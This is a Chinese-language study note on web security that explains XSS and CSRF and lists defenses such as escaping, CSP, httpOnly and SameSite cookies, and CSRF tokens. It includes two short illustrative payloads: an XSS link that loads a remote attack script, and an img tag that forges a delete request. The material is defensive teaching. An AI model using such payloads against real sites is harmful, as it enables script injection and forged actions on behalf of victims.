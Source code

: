例子：

攻击者诱导被害者打开链接 `XXXX?name=<script src="http://a.com/attack.js"/>`。被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。被害者在不知情的情况下，执行了攻击者注入的脚本。

### 防御

1. 对于外部传入的内容进行充分转义。
2. 开启 CSP（Content Security Policy，内容安全策略），规定客户端哪些外部资源可以加载和执行，降低 XSS 风险。(白名单),通常有两种方式来开启 CSP，一种是设置 HTTP 首部中的 Content-Security-Policy，一种是设置 meta 标签的方式
3. 设置 Cookie httpOnly 属性，禁止 JavaScript 读取 Cookie 防止被窃取。

## CSRF跨站请求伪造

原理：攻击者诱导受害者进入第三方网站，在第三方网站中向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的身份凭证，达到冒充用户对被攻击的网站执行某项操作的目的。CSRF 攻击的本质是利用 cookie 会在同源请求中携带发送给服务器的特点，以此来实现用户的冒充。

要点：

1. 利用浏览器在发送 HTTP 请求时会自动带上 Cookie 的原理，冒用受害者身份请求。
2. 攻击一般发生在第三方网站上。
3. 攻击者只能“冒用”受害者的身份凭证，并不能获取。
4. 跨站请求有多种方式，常见的有图片URL(get)、Form表单(post)提交、超链接等。

例子：

攻击者在第三方网站上放置一个img
`<img src="http://XXXX/article/delete" />`
受害者访问该页面后（前提：受害者在 hzfe.org 登录过且产生了 Cookie 信息），浏览器会自动发起这个请求，XXXX就会收到包含受害者身份凭证的一次跨域请求。若目标网站没有任何防范措施，那攻击者就能冒充受害者完成这一次请求操作。

防范：

1. 使用 CSRF Token 验证用户身份
原理：服务端生成 CSRF Token （通常存储在 Storage 中），用户提交请求时携带上 Token，服务端验证 Token 是否有效。
优点：能比较有效的防御 CSRF （前提是没有 XSS 漏洞泄露 Token）。
缺点：一般不会只有一台网站服务器，如果请求经过负载平衡转移到了其他的服务器，但是这个服务器的 session 中没有保留这个 token 的话，就没有办法验证了。这种情况可以通过改变 token 的构建方式来解决。
2. 双重 Cookie 验证
原理：利用攻击者不能获取到 Cookie 的特点，服务器在用户访问网站页面时，向请求域名注入一个Cookie，内容为随机字符串，然后当用户再次向服务器发送请求的时候，从 cookie 中取出这个字符串，添加到 URL 参数中，然后服务器通过对 cookie 中的数据和参数中的数据进行比较，来进行验证。并且这种方法比 CSRF Token 的方法更加方便，并且不涉及到分布式访问的问题。
缺点:这种方法的缺点是如果网站存在 XSS 漏洞的，那么这种方式会失效。同时这种方式不能做到子域名的隔离。
3. 设置 Cookie 的 SameSite 属性可以用来限制第三方 Cookie 的使用，可选值有 Strict、Lax、None。
Strict：完全禁止第三方 Cookie。
Lax：只允许链接、预加载请求和 GET 表单的场景下发送第三方 Cookie。
None：关闭 SameSite 属性。
4. 设置白名单，仅允许安全域名请求(同源检测),
原理:http 请求头中 origin 或者 referer 信息来判断请求是否为允许访问的站点，从而对请求进行过滤
缺点:有些情况下 referer 可以被伪造，同时还会把搜索引擎的链接也给屏蔽了,所以一般网站会允许搜索引擎的页面请求，但是相应的页面请求这种请求方式也可能被攻击者给利用
5. 增加验证码验证

## 中间人攻击
